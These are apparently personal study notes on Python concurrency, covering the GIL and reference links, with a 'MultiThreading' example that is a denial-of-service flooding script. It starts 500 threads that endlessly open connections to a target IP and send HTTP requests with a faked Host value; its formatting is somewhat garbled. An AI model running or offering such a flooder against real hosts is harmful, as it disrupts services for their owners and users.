 # Concurrency

---

## Global Interpreter Lock (GIL)

GIL is a mutex that protects access to Python objects, preventing multiple threads from executing Python bytecodes at once. This lock is necessary mainly because CPython's memory management is not thread-safe.

This essentially means that a process can run only one thread at a time. When a thread starts running, it acquires GIL and when it waits for I/O, it releases the GIL, so that other threads of that process can run.

Solution -

- Run multiple Python instances

## References

<https://wiki.python.org/moin/GlobalInterpreterLock>

<https://pybay.com/site_media/slides/raymond2017-keynote/index.html>

[Raymond Hettinger, Keynote on Concurrency, PyBay 2017](https://www.youtube.com/watch?v=9zinZmE3Ogk&index=2&list=WL&t=0s)

<https://realpython.com/python-concurrency>

<https://www.toptal.com/python/beginners-guide-to-concurrency-and-parallelism-in-python>

<https://www.tutorialspoint.com/concurrency_in_python/index.htm>

[**Tutorial: Santiago Basulto - Python Concurrency: from beginner to pro**](https://www.youtube.com/watch?v=18B1pznaU1o)

[Back to Basics: Concurrency](https://youtu.be/5pYKAoD3Apk) - C++

## MultiThreading

```python
import threading

import socket

target = '10.0.0.138'

port = 80

fake_ip = '182.21.20.32'

def attack():

while True:

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((target, port))

s.sendto(("GET /" + target + " HTTP/1.1rn").encode('ascii'), (target, port))

s.sendto(("Host: " + fake_ip + " rnrn").encode('ascii'), (target, port))

s.close()

for i in range(500):

thread = threading.Thread(target=attack)

thread.start()
```

<https://bovage.hashnode.dev/what-exactly-is-multithreading>
